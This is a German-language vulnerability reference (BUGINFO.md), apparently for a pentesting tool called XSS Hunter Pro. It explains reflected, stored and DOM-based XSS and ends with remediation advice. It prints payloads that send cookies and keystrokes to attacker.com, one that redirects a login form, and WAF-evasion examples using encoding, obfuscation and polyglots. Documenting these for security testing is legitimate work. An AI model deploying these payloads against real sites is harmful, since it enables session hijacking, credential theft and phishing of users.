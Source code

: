 # BUGINFO.md - XSS Hunter Pro Framework

Dieses Dokument enthält Informationen zu bekannten Schwachstellen und deren Kategorisierung im XSS Hunter Pro Framework.

## Cross-Site Scripting (XSS) Schwachstellen

### Typen von XSS-Schwachstellen

#### 1. Reflected XSS

**Beschreibung:** Bei Reflected XSS wird der bösartige Code vom Webserver zurück an den Browser des Opfers gesendet, typischerweise als Teil einer Suchanfrage oder eines Formulars.

**Schweregrad:** Hoch

**Erkennungsmerkmale:**
- Der Payload wird in der URL oder in POST-Parametern gesendet
- Die Antwort des Servers enthält den Payload
- Die Ausführung erfolgt sofort nach dem Laden der Seite

**Beispiel-Payload:**
```
<script>alert(document.cookie)</script>
```

#### 2. Stored XSS

**Beschreibung:** Bei Stored XSS wird der bösartige Code dauerhaft auf dem Zielserver gespeichert (z.B. in einer Datenbank) und später an andere Benutzer ausgeliefert.

**Schweregrad:** Kritisch

**Erkennungsmerkmale:**
- Der Payload wird in der Datenbank oder anderen persistenten Speichern gespeichert
- Die Ausführung erfolgt, wenn andere Benutzer die betroffene Seite besuchen
- Der Angriff kann viele Benutzer betreffen

**Beispiel-Payload:**
```
<img src="x" onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
```

#### 3. DOM-based XSS

**Beschreibung:** Bei DOM-based XSS wird der bösartige Code durch Manipulation des Document Object Model (DOM) im Browser ausgeführt, ohne dass der Server den Payload verarbeitet.

**Schweregrad:** Mittel bis Hoch

**Erkennungsmerkmale:**
- Der Payload wird nicht vom Server verarbeitet
- Die Ausführung erfolgt durch clientseitigen JavaScript-Code
- Häufig in Single-Page-Anwendungen (SPAs) zu finden

**Beispiel-Payload:**
```
<script>document.getElementById("demo").innerHTML = location.hash.substring(1);</script>
```

### Exploit-Typen

#### 1. Datendiebstahl (data_theft)

**Beschreibung:** Stiehlt sensible Daten wie Cookies, Authentifizierungstoken oder persönliche Informationen.

**Beispiel-Payload:**
```
<script>
fetch('https://attacker.com/steal?data='+encodeURIComponent(document.cookie))
</script>
```

#### 2. Keylogger (keylogger)

**Beschreibung:** Zeichnet Tastatureingaben des Benutzers auf, um Passwörter oder andere sensible Informationen zu stehlen.

**Beispiel-Payload:**
```
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://attacker.com/log?key='+e.key)
});
</script>
```

#### 3. DOM-Manipulation (dom_manipulation)

**Beschreibung:** Verändert das Erscheinungsbild oder Verhalten der Webseite, um Benutzer zu täuschen oder Phishing-Angriffe durchzuführen.

**Beispiel-Payload:**
```
<script>
document.querySelector('form').action = 'https://attacker.com/fake_login';
</script>
```

#### 4. Cookie-Diebstahl (cookie_stealing)

**Beschreibung:** Spezialisierte Form des Datendiebstahls, die sich auf das Stehlen von Cookies konzentriert.

**Beispiel-Payload:**
```
<img src="x" onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
```

## WAF-Bypass-Techniken

Das Framework unterstützt verschiedene Techniken, um Web Application Firewalls (WAFs) zu umgehen:

### 1. Encoding-Variationen

**Beschreibung:** Verwendet verschiedene Formen der Kodierung, um Erkennungsmuster zu umgehen.

**Beispiele:**
- HTML-Entitäten: `&lt;script&gt;alert(1)&lt;/script&gt;`
- Unicode-Kodierung: `\u003Cscript\u003Ealert(1)\u003C/script\u003E`
- URL-Kodierung: `%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

### 2. Obfuskation

**Beschreibung:** Verschleiert den Code, um die Erkennung zu erschweren.

**Beispiele:**
- JavaScript-Obfuskation: `eval(String.fromCharCode(97,108,101,114,116,40,49,41))`
- Aufteilen von Strings: `<script>a="al";b="ert";c="(1)";eval(a+b+c)</script>`

### 3. Polyglot-Payloads

**Beschreibung:** Payloads, die in mehreren Kontexten funktionieren.

**Beispiel:**
```
javascript:"/*\"/*--><script>alert(1);</script>"
```

### 4. Nicht-standardmäßige Tags und Attribute

**Beschreibung:** Verwendet ungewöhnliche Tags oder Attribute, die von WAFs möglicherweise nicht erkannt werden.

**Beispiele:**
- `<svg onload=alert(1)>`
- `<details ontoggle=alert(1)>`

## ML-basierte Payload-Optimierung

Das Framework verwendet maschinelles Lernen, um Payloads zu optimieren:

1. **Kontextanalyse:** Erkennt den Kontext, in dem der Payload eingefügt wird (HTML, JavaScript, Attribute, etc.)
2. **Musterlernen:** Lernt aus erfolgreichen und fehlgeschlagenen Payloads
3. **Payload-Generierung:** Generiert neue Payloads basierend auf gelernten Mustern
4. **Feedback-Schleife:** Verbessert die Generierung durch Feedback aus Testläufen

## Schwachstellenkategorisierung

Das Framework kategorisiert Schwachstellen nach:

1. **Typ:** Reflected XSS, Stored XSS, DOM-based XSS
2. **Schweregrad:** Niedrig, Mittel, Hoch, Kritisch
3. **Auswirkung:** Datendiebstahl, Kontomanipulation, Sitzungsübernahme, etc.
4. **Ausnutzbarkeit:** Einfach, Mittel, Schwierig
5. **CVSS-Score:** Numerische Bewertung basierend auf dem Common Vulnerability Scoring System

## Empfehlungen zur Behebung

Für jede identifizierte Schwachstelle bietet das Framework spezifische Empfehlungen zur Behebung:

1. **Input-Validierung:** Überprüfung und Bereinigung von Benutzereingaben
2. **Output-Encoding:** Kontextspezifisches Encoding von Ausgaben
3. **Content Security Policy (CSP):** Implementierung einer strengen CSP
4. **X-XSS-Protection-Header:** Aktivierung des XSS-Filters im Browser
5. **HttpOnly- und Secure-Flags:** Schutz von Cookies vor XSS-Angriffen
6. **Frameworks und Bibliotheken:** Verwendung von sicheren Frameworks, die automatisch XSS-Schutz bieten
